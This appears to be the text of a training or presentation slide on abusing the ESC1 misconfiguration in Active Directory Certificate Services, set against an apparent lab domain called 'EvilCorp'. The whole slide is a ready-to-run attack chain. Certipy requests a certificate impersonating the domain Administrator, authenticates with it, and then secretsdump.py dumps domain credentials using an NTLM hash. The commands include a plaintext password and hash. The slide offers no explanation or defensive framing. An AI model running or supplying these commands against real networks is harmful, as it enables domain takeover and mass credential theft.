

# ESC1 - Abuse
certipy req 'EVILCORP/TheHorseman:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -template 'Vulnerable ECS1' -alt 'Administrator@EvilCorp.local‘
certipy auth -pfx administrator.pfx
secretsdump.py -hashes :669556eda1adbb10afdf29f42760db39 Administrator@EVILDC1.evilcorp.local